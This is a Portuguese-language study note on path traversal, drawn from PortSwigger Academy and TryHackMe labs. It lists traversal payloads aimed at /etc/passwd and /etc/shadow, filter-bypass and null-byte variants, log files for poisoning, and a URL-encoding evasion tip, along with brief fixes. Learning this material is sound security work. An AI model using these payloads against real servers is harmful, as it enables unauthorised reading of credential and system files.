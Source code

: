 # Path Transversal
> Anotações com base no laboratórios do Portswigger Academy e TryHackMe

A vulnerabilidade de **Path Transversal** ou **Directory Transversal**, mas também conhecida com _dot-dot-slash_, refere-se a visualização não autorizada de arquivos com informações sensíveis para o compromentimento da máquina.

``/etc/passwd`` - Usuários presentes no sistema

``/etc/shadow`` - Hashes das senhas presentes no sistema

``/var/log/apache2/acess.log`` ou ``/var/log/httpd/access_log``- Para envenanmento log

## Exemplos
``http://example.com/get-files?file=report.pdf``

``http://example.com/get-php?f=list``

## Paylods básicos
``../../../../etc/passwd``

``....//....//....//....//etc/passwd``

``....\/....\/....\/....\/etc/passwd``

``/var/www/html/../../../../etc/passwd``

``../../../../../../../../etc/passd%00``

## Observações
No Windows, pode-se apenas explorar o diretório de web.

No GNU/Linux, pode-se visualizar todo o disco.

## Correções
- Validar a entrada do usuário ao checar o arquivo final.
- Bloquear os acessos as outras pastas.

## Extras
Caminho relativo: Refere-se ao caminho da pasta atual (./folder/file.php)

Caminho absoluto: Refere-se ao caminho completo (/var/www/html/folder/file.php)

Em caso de bloqueio por parte das aplicações, recorrer a ofuscação com URL Code
